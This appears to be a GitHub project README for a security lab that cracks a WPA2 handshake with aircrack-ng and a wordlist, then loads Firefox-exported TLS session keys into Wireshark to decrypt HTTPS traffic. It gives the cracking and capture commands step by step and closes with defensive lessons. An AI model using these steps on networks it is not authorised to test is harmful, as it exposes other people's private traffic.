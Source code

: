 # Wireshark TLS Decryption & WPA2 Traffic Analysis

This project demonstrates the process of capturing, decrypting, and analyzing encrypted Wi-Fi traffic using Wireshark. The goal was to exploit a WPA2-secured wireless network to gain visibility into otherwise encrypted HTTPS traffic by leveraging both WPA2 handshake cracking and TLS session key extraction.

---

## 🔧 Tools & Environment

- Kali Linux (VirtualBox)
- External Wi-Fi Adapter (monitor mode + packet injection)
- Wireshark
- aircrack-ng
- rockyou.txt wordlist
- Firefox (on target system)
- TLS Session Key Logging

---

## 🛠️ Project Workflow

```bash
# 1. Enable Monitor Mode
sudo airmon-ng start wlan0

# 2. Capture the WPA2 Handshake
sudo airodump-ng wlan0mon

# 3. Use aircrack-ng to Crack the Handshake
aircrack-ng -w rockyou.txt -b <target-BSSID> capturefile.cap

# 4. Load the Cracked Password into Wireshark for WPA2 Decryption:
# Go to: Edit → Preferences → Protocols → IEEE 802.11
# Enable decryption and add the Wi-Fi password as a WPA-PWK key

# 5. Export TLS Session Keys from Firefox on Target Machine
# On the target machine:
export SSLKEYLOGFILE=/path/to/sessionkeys.log

# 6. Load the TLS Keys into Wireshark
# Go to: Edit → Preferences → Protocols → TLS → (Pre)-Master-Secret log filename → Browse to sessionkeys.log

# 7. Analyze Decrypted HTTPS Traffic
# Apply filters like:
tls
http
ip.addr == <target IP>

**Key Objectives**

Capture and crack a WPA2 4-way handshake

Extract TLS session keys using browser environment variables

Load and apply session keys to decrypt HTTPS streams in Wireshark

Identify decrypted TCP, HTTP, and TLS payloads from a specific device

**Takeaways**

WPA2 encryption can be broken if the passphrase is weak

TLS traffic can be decrypted if session keys are obtained

Combining wireless traffic capture with browser key export enables full visibility into encrypted sessions

Encryption ≠ invincibility — endpoint security matters
